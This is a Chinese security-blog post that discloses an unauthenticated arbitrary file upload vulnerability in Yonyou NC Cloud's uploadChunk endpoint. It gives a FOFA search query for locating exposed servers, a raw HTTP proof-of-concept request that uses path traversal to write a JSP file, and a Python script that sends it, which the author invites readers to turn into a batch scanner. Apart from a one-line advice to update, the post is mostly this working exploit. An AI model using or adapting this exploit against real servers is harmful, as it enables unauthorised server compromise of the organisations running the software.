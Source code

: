 #  安全情报，X友NC存在任意文件上传漏洞！！   
原创 Ax  极星信安   2023-11-28 16:32  
  
**声明：**该公众号大部分文章来自作者日常学习笔记，也有部分文章是经过作者授权和其他公众号白名单转载，禁止私自转载，如需转载，请联系作者！！！！  
  
请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关！！！！！  
  
**漏洞介绍**  
  
X友NC Cloud大型企业数字化平台，深度应用新一代数字智能技术，基于云原生架构，打造开放、互联、融合、智能的一体化云平  
台，X友NC Cloud uploadChunk存在任意文件上传漏洞，未经授权的攻击者通过漏洞可以上传任  
意文件，获取服务器权限。  
  
**影响版本**  
```
用友NC Cloud uploadChunk
```  
  
**漏洞情报**  
  
**fofa语句**  
```
app="用友NC Cloud uploadChunk"
```  
  
**Poc**  
```
POST /ncchr/pm/fb/attachment/uploadChunk?fileGuid=/../../../nccloud/&chunk=1&chunks=1 HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept-Encoding: gzip, deflate
**************************************
--bd966ad8118cfcc67ee341272f2900c4
Content-Disposition: form-data; name="file"; filename="ncchr_log.jsp"

<%out.println("12345678");%>
--bd966ad8118cfcc67ee341272f2900c4--
```  
  
**Poc验证工具**  
  
这里给个基础的demo，大佬们自己改成批量就可以了。  
```
import requests

# 输入目标主机和路径
host = "your_host"
path = "/ncchr/pm/fb/attachment/uploadChunk?fileGuid=/../../../nccloud/&chunk=1&chunks=1"

# 构建完整的URL
url = f"http://{host}{path}"

# 定义请求头
headers = {
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0",
    "Accept-Encoding": "gzip, deflate",
}

# 定义请求体
payload = """
**************************************
--bd966ad8118cfcc67ee341272f2900c4
Content-Disposition: form-data; name="file"; filename="ncchr_log.jsp"

<%out.println("12345678");%>
--bd966ad8118cfcc67ee341272f2900c4--
"""

# 发送 POST 请求
response = requests.post(url, headers=headers, data=payload)

# 检查响应状态码
if response.status_code == 200:
    print("验证成功")
else:
    print("验证失败")

```  
  
**修复建议**  
```
建议及时更新至最新版本！
```  
  
**关注我们**  
  
  
